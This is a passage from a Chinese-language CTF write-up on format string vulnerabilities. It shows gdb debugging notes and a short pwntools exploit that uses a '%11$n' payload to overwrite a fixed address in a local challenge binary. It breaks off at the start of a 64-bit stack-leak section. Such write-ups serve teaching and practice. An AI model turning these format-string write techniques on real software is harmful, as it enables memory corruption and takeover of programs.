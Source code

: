 gdb 动调一下

[![](assets/1701612281-ad1a4e6c388ce840a98c64e807c15598.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223751-ac9ab46c-2578-1.png)

第一个方框里面是 printf() 的第一个参数

下面的方框是格式化字符串的参数，可以看到第 11 个参数在栈上写入了我们输入的字符串，所以我们也就知道了要修改哪个地方的内容了

exp：

```bash
from pwn import *
context(os='linux',arch='i386',log_level='debug')

io=process('./pwn')
elf=ELF('./pwn')
x_addr=0x0804A02C
payload=p32(x_addr)+b"%11$n"
io.sendline(payload)
io.interactive()
```

[![](assets/1701612281-23a49c4f8dc45cefbf56529e3af6a6cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223758-b0847d1a-2578-1.png)

#### fmtstr2

##### 泄露栈内存 (64 位的格式化字符串)

前期准备工作

[![](assets/1701612281-9ccedd5c3d8f4c93cf66e3cd5edd821f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223802-b2de732c-2578-1.png)
